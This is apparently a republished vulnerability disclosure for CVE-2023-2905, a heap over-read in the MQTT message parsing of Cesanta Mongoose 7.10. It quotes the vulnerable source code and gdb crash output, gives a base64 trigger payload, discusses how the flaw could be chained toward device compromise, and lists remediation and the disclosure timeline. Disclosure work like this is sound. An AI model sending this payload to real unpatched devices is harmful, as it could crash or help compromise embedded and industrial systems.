 # CVE-2023-2905 Proof-of-Concept

## POC URL
http://takeonme.org/cves/cve-2023-2905/

## Run Command
CVE-2023-2905: Cesanta Mongoose MQTT Message Parsing Heap Overflow
AHA! has discovered an issue with Mongoose from Cesanta, and is publishing this disclosure in accordance with AHA!’s standard disclosure policy today, on Tuesday, August 8, 2023. CVE-2023-2905 has been assigned to this issue.

Any questions about this disclosure should be directed to cve@takeonme.org.

## Executive Summary
Due to a failure in validating the length of a provided MQTT_CMD_PUBLISH parsed message with a variable length header, the dual-licensed Cesanta Mongoose embeddable web server version 7.10 is susceptible to a heap-based buffer overflow vulnerability in the default configuration. CVE-2023-2905 appears to be an instance of CWE-122. Version 7.9 and prior does not appear to be vulnerable.

## Technical Details
Below is the code used to parse mqtt messages with lines 365-370 being used to ensure that the variable length portion of the buffer is not larger than 4 bytes and breaking out of the loop if lc & 0x80 evaluates to false (based on the MSB).

## src/mqtt.c

352 int mg_mqtt_parse(const uint8_t *buf, size_t len, uint8_t version,
353                   struct mg_mqtt_message *m) {
354   uint8_t lc = 0, *p, *end;
355   uint32_t n = 0, len_len = 0;
356
357   memset(m, 0, sizeof(*m));
358   m->dgram.ptr = (char *) buf;
359   if (len < 2) return MQTT_INCOMPLETE;
360   m->cmd = (uint8_t) (buf[0] >> 4);
361   m->qos = (buf[0] >> 1) & 3;
362
363   n = len_len = 0;
364   p = (uint8_t *) buf + 1;
365   while ((size_t) (p - buf) < len) {
366     lc = *((uint8_t *) p++);
367     n += (uint32_t) ((lc & 0x7f) << 7 * len_len);
368     len_len++;
369     if (!(lc & 0x80)) break;
370     if (len_len >= 4) return MQTT_MALFORMED;
371   }
Then lines 393-406 show the code path to the vulnerable function decode_variable_length, containing the remaining to be read mqtt buffer after additions to the p pointer on lines 394, 397, 402.

src/mqtt.c

393     case MQTT_CMD_PUBLISH: {
394       if (p + 2 > end) return MQTT_MALFORMED;
395       m->topic.len = (uint16_t) ((((uint16_t) p[0]) << 8) | p[1]);
396       m->topic.ptr = (char *) p + 2;
397       p += 2 + m->topic.len;
398       if (p > end) return MQTT_MALFORMED;
399       if (m->qos > 0) {
400         if (p + 2 > end) return MQTT_MALFORMED;
401         m->id = (uint16_t) ((((uint16_t) p[0]) << 8) | p[1]);
402         p += 2;
403       }
404       if (p > end) return MQTT_MALFORMED;
405       if (version == 5 && p + 2 < end) {
406         m->props_size = decode_variable_length((char *) p, &len_len);
The below shows the buffer from the crash file showing a 10 byte mqtt message with the 8th byte having the MSB set.

Thread 1 "fuzzer" hit Breakpoint 7, LLVMFuzzerTestOneInput (data=0xffffb4500790 "5\b", size=10) at test/fuzz.c:38

38        mg_mqtt_parse(data, size, 5, &mm);
(gdb) x/12bx data
0xffffb4500790: 0x35    0x08    0x00    0x01    0x00    0x00    0x5a    0x8a
0xffffb4500798: 0xff    0xff    0x00    0x00
This results in a variable length header being detected but only containing 3 bytes, as can be seen below

Thread 1 "fuzzer" hit Breakpoint 8, mg_mqtt_parse (buf=<optimized out>, len=<optimized out>, version=<optimized out>, m=<optimized out>) at src/mqtt.c:415
415             m->props_size = decode_variable_length((char *) p, &len_len);
(gdb) x/10x p
0xffffb0b00797: 0x8a    0xff    0xff    0x00    0x00    0x00    0x00    0x00
0xffffb0b0079f: 0x00    0x02
And finally, the decode_variable_length function code, which contains no bounds checks on the size of the buffer being read.

src/mqtt.c

 92 static uint32_t decode_variable_length(const char *buf,
 93                                        uint32_t *bytes_consumed) {
 94   uint32_t value = 0, multiplier = 1, offset;
 95
 96   for (offset = 0; offset < 4; offset++) {
 97     uint8_t encoded_byte = ((uint8_t *) buf)[offset];
 98     value += (encoded_byte & 0x7F) * multiplier;
 99     multiplier *= 128;
100
101     if (!(encoded_byte & 0x80)) break;
102   }
103
104   if (bytes_consumed != NULL) *bytes_consumed = offset + 1;
105
106   return value;
107 }
This allows for a read primitive of 1-3 bytes from a heap overflow.

## Payload
A base64 encoded blob of the payload needed to trigger the vulnerability can be found below.
NQgAAQAAWor//w==

## Attacker Value
Cesanta Mongoose is an embedded webserver library commonly used to add web server functionality to devices with vendor provided integrations. According to the project’s README, “Mongoose is used by hundreds of businesses, from Fortune500 giants like Siemens, Schneider Electric, Broadcom, Bosch, Google, Samsung, Qualcomm, Caterpillar to the small businesses.” Because it is an embedded software, often implemented in the context of IOT/ICS (Internet of Things / Industrial Control Systems), its presence may be difficult for affected end-users to audit for.

If an attacker has the capability of sending an MQTT message to the webserver (which would require direct network access to the network hosting the device), that attacker could use the above primitive in a chain to obtain remote code execution on an embedded device. The level of access would depend on the parent process that runs Mongoose. In most IOT/ICS contexts, this would typically result in the total compromise of the webserver, and, if it is not running in a privilege-restricted context, total compromise of the hosting device.

Remediation
PR2274 fixes the issue on the main branch of the open source repository; the vendor has further advised that Mongoose Version 7.11 available for downstream users and implementors addresses the issue.

Credit
This issue is being disclosed through the AHA! CNA and is credited to: zenofex and WanderingGlitch

Timeline
2023-05-25 (Thu): Initial findings presented at AHA! Meeting 0x00c8
2023-06-22 (Thu): PoC validated and this disclosure drafted.
2023-06-22 (Thu): Disclosed to the vendor via email at support@cesanta.com.
2023-06-23 (Fri): Vendor acknowledged the vulnerability.
2023-06-27 (Tue): Vendor fixed master branch with PR2274.
2023-08-07 (Mon): Reached out to vendor for a status update.
2023-08-08 (Tue): Vendor advised publishing this disclosure of CVE-2023-2905.